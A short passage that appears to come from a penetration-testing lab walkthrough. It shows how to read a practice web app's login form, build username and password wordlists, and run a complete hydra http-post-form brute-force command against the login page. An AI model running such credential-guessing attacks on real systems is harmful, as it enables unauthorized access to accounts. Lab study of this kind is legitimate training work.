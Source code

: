 - Open the `http://192.210.201.3/login.php` page, view source code and check the parameters passed in the login form.

![](assets/image-20230505005152468.png)

- Prepare a usernames and a passwords list

```bash
echo -e "admin\nbee\nuser1\nuser2" > users
cat /root/Desktop/wordlists/100-common-passwords.txt > pws
echo "bug" >> pws

```

- Use **`hydra`** to retrieve the credentials

```bash
hydra -L users -P pws 192.210.201.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
